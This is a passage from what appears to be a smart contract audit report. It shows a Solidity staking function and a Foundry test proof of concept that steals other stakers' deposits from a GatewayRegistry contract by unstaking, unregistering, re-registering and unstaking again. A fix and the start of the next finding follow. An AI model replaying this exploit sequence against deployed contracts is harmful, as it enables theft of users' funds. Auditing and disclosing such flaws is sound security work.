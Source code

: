```solidity
  function _unstakeable(Gateway storage gateway) internal view returns (uint256) {
    Stake[] memory _stakes = stakes[keccak256(gateway.peerId)];
    uint256 blockNumber = block.number;
    uint256 total = 0;
    for (uint256 i = 0; i < _stakes.length; i++) {
      Stake memory _stake = _stakes[i];
      if (_stake.lockEnd <= blockNumber) {
        total += _stake.amount;
      }
    }
    return total - gateway.totalUnstaked;
  }
```

Here is the coded POC for `GatewayRegistry.unstake.t.sol `

```solidity
  function test_StealStakes() public {
    uint256 amount = 100;
    address alice = address(0xA11cE);
    token.transfer(alice, amount);

    // stakers stake into their gateways
    gatewayRegistry.stake(peerId, amount, 200);
    vm.startPrank(alice);
    token.approve(address(gatewayRegistry), type(uint256).max);
    gatewayRegistry.register(bytes("alice"), "", address(0x6a7e));
    gatewayRegistry.stake(bytes("alice"), amount, 200);

    assertEq(token.balanceOf(address(gatewayRegistry)), 200);
    // exploit
    vm.roll(block.number + 300);
    gatewayRegistry.unstake(bytes("alice"), amount);
    gatewayRegistry.unregister(bytes("alice"));
    gatewayRegistry.register(bytes("alice"), "", address(0x6a7e));
    // unstake again
    gatewayRegistry.unstake(bytes("alice"), amount);
    assertEq(token.balanceOf(address(gatewayRegistry)), 0);
  }
```

## Recommendations

Delete `stakes` mapping when gateway is being unregistered.

# [H-01] Missing check on `toBlock` allows distributors to change past rewards

## Severity
